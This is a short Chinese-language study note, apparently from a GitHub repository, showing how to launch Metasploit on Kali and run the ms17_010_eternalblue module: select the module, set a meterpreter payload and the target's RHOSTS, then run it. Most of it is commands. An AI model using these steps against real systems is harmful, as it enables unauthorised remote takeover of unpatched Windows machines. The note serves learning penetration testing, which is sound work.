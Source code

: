 # metasploit

### 启动metasploit

1. 启动终端
   
   ```shell
   msfcosnole
   ```

2. ```shell
   sudo su
   ```

3. 初始化metaspolit数据库
   
   ```shell
   msfdb init
   ```

### 永恒之蓝漏洞

永恒之蓝工具利用SMB漏洞获取系统最高操作权限

### metasploit攻击永恒之蓝

1. 使用模块
   
   ```shell
   use exploit/windows/smb/ms17_010_eternalblue
   ```

2. 设置必选项
+ 查看必选项（*required为yes的就是必选项）
  
  ```shell
  show options
  ```

+ 查找漏洞
  
  ```shell
  search ms17_010
  ```
  
  ![](kali.assets/2023-07-30-23-27-47-image.png)
  
  其中exploit为攻击模块，auxiliary为辅助模块（检测漏洞是否存在）

+ 使用模块
  
  ```shell
  # use+编号或漏洞全称
  use 0
  use exploit/windows/smb/ms17_010_eternalblue
  ```

+ 设置必选项
  
  ![](kali.assets/2023-07-30-23-59-57-image.png)
  
  发现需要设置目标设备的IP地址
  
  ![](imgs/2023-07-31-00-01-05-image.png)
  
  在早期版本中需要设置payload
  
  ```shell
  set payload windows/x64/meterpreter
  ```
  
  设置目标设备的ip地址
  
  ```shell
  set RHOSTS 127.0.0.1
  ```

+ 运行
  
  ```shell
  run
  ```

+ 其他操作
  
  ```shell
  back # 返回主菜单
  exit # 退出msfconsole 
  search:linux # 查找linux漏洞
  search name:mysql type:exploit # 查找mysql漏洞类型是exp
  search cve:CVE-2017-8464 type:exploit # 查找cve可执行exp漏洞
  ```

+ 

